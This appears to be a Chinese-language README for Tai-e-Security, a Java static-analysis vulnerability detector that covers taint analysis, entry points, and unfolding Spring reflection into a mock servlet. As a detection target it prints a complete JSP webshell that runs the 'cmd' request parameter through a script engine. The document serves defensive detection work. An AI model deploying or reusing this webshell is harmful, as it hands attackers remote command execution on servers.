


# 介绍

Tai-e-Security 是基于Tai-e java 静态检测框架之上的一个漏洞检测工具，主要是解决一些工程适配的问题

# Threat 从哪些地方引入

)


* 容器引入

在java世界里容器的概念有多样，并且这些容器都是在业界以规范的形式存在，比如 servlet容器，以及它的实现tomcat，ejb 容器以及它的实现Jboss，还有java bean现实标准spring那一套

* component引入

这种组件本身不能构成一个runnable的程序，比如Log4j, fastjson 等，他们的漏洞利用需要被依赖到runnable的程序里

* 业务逻辑引入

这一部分是业务方基于上面的java基础设施编写自己的逻辑代码引入，比如各种controller, service 等


# 由谁引入

* 开发人员

上图中主要是说明由第三方或者自己方的开发人员不经意引入的threat

* 黑客


```java
<%@ page import="java.util.*,java.io.*,javax.script.*,java.net.*"%>
<%
//
// JSP_KIT
//
// 1.jsp = Command Execution (unix)
//
// by: huzhanchi
//
%>
<HTML><BODY>
<%
if (request.getParameter("cmd") != null) {
        String n = request.getParameter("cmd");
  try {
        n = java.net.URLDecoder.decode(n, "UTF-8");
			} catch (Exception e) {
					  e.printStackTrace();
			}
        String j = System.getProperty("java.version");
        ScriptEngineManager engineManager = new ScriptEngineManager();
        ScriptEngine engine = null;
        boolean b = j.indexOf("1.7") == 0 ? true : false;
        engine = engineManager.getEngineByName("js");
        String m = b ? "(function sum() {importPackage(java.util);importPackage(java.lang);Runtime.getRuntime().exec(a); return a; })(a)" :
          "load(\"nashorn:mozilla_compat.js\");(function sum() {importPackage(java.util);importPackage(java.lang);Runtime.getRuntime().exec(a); return a; })(a)";
        Bindings bindings = engine.createBindings();
        bindings.put("a", n);
        engine.setBindings(bindings, ScriptContext.GLOBAL_SCOPE);
        engine.eval(m, bindings);
  }
%>
</BODY></HTML>
```

黑客留下的后门比如webshell，或者其他java类持久后门，如果是后门就会有代码检测对抗，比如shell 利用反射，动态JavaScript引擎脚本混淆，所以面向黑客投递的jsp webshell检测效果相对要弱些

# 污点分析检测

污点分析检测主要的逻辑是基于已有的漏洞知识，即source和sink

## 遇到的困难

面对各种各样的codebase，我们要确定审计的是哪一部分，有两种审计方式：
1. 一个完整的业务系统，涵盖container，各种依赖的component，以及业务逻辑bean
2. 单独对某个无业务逻辑的component审计

其中第2个方式一个难点是有效的source 如何合理定义，在现实中是否广泛存在，比如log4j shell隐藏这么久，觉得很大一部分原因在于log.error 这个方法做为source在常规的审计思维里并不是最优先的，因为它不如Httprequest那么直接

## 单独对某个无业务逻辑的component审计

现在大多数开源项目都会有Unitest，如何识别合理有效的source和entry point 应该是一个有价值的方向

## 完整的业务系统的审计
这里会涉及到大量的component

* 我们要从上面提到的漏洞引入点哪里起步

目前比较难实现end to end 的检测，即流量从最直接入口tomcat internal filter chain，我们更多关心流量进入到controller或者servlet之后的部分，当然在之前也有不少漏洞比如fastjson和jackson的反序列化漏洞，以及shiro的cookie反序列化漏洞，
这些漏洞都是进入到controller之前被exploit的。这个项目也是从spring controller和servlet作为entry point


* 定义entry point 和 source遇到的困难
  
最终的困难是分析的时候 如何应对反射，无论IOC还是annotation以及 proxy模式，java里很多是基于声明式，比如各种DSL，spring IOC xml 即是一种DSL，还有各种annotation也是一种DSL,这是一种声明我要什么，具体怎么做的逻辑是在代码另外一端，并且都会涉及到
反射的操作

解决方式有哪些？通用层面上我还没想清楚，期待框架比如Tai-e 有一套自己的反射model，并且这块我也没太深入了解 ，在Tai-e 框架资深提供通用解决反射之外的方式有哪些，下面是两种workaround方向:

## 自定义plugin (WIP)

基于Tai-e 提供的plugin机制，自定义自己所在的分析领域的特殊处理，增加自己的entry point和source


## 反射展开

反射展开，即将反射的魔法语法去掉，将他们展开成简单移动的方式, 这个repo里用到的一些方发就是比如 将所有spring 里的controller 都mock 到一个servlet里



这里mock流程都是通过gradle task来组织以及相互依赖

### Jsp 或 Servlet

对于JSP 首先要使用jasper将JSP转换为servlet

### spring web

将各种IOC注入功能都展开为过程化的风格

``` java
import javax.servlet.*;
import javax.servlet.http.*;
import java.io.IOException;

public class MyServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try {
            String mockInput = request.getParameter("mock");
            #foreach($controller in $controllerList)
                #set($ctrIndex= $foreach.index)
                ${controller.className} ctr$ctrIndex = new ${controller.className}();
                    #foreach($method in $controller.mappingItems)
                    ctr${ctrIndex}.${method.name}(#foreach($arg in $method.args)
                #if($arg=="javax.servlet.http.HttpServletRequest") request #elseif($arg=="javax.servlet.http.HttpServletResponse") response #else mockInput #end #if($foreach.hasNext),#end#end );
            #end
            #end
            response.getWriter().println("Hello, this is my servlet!");
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}

```


# Todo list

- [x] jsp webshell
- [x] log4j shell
- [x] java-sec-code
- [x] servlet
- [x] spring controller
- [] unit test entry point